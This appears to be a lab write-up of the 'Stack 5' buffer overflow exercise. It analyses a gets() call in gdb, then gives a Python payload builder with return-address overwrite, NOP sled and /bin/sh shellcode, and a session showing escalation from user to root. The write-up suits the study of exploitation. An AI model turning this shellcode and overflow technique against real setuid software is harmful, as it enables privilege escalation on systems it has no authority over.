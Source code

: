 # Stack 5

## Problem

We call gdb to list the functions that are in the program and we find that there
is only one function this time.

```gdb
info function
>>>File stack5/stack5.c:
>>>int main(int, char **);
```

We try to disassemble the main function to figure out what we are trying to exploit.

```gdb
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
```

There only seems to be a function call `gets` which we can try to maneuver with.

## Idea and Attack process

We plan to inject code through the `gets` call by overflowing the stack such
that we can inject some form of code that we want to run.

There are 72bytes to replace from top of stack to ebp. We also have to replace
4 more bytes to remove the ebp of the previous caller then we can inject the
address of the shellcode which is 8 bytes after the current ebp. Recall that the
block below the ebp is the previous ebp (from push ebp) followed by the return
address and following that address will be our shellcode.

```gbd
b*0x080483d1
run
info reg ebp esp
ebp            0xbffffcb8       0xbffffcb8
esp            0xbffffc60       0xbffffc60
```

We first figure out what is the ebp and esp that we should manipulate with.
From the output, we can guess the size of the buffer and we can be sure that the
size of the buffer is still 64bytes, and the 76bytes planned initially is valid.

We construct a python file to conjure up the needed values to run our code.

```python
import struct
filler = "1" * 76
addr = struct.pack("I", 0xbffffcc4+64)
nop = "\x90"*128
code =  "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

print filler+addr+nop+code
```

We position our address 50bytes after the ebp such that the address will fall
within the nop instructions that is injected. When the CPU runs the nop, it will
keep executing till it reaches the shell code that we plan to inject. The shell
code was obtained online.

```bash
whoami
>>>user
vim stack5_py.py
python stack5_py.py > /tmp/payload
./stack5 < /tmp/payload
whoami
>>>root
```

Running the script, we get the shellcode to run and when we prompt `whoami` now,
it returns root instead of user.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
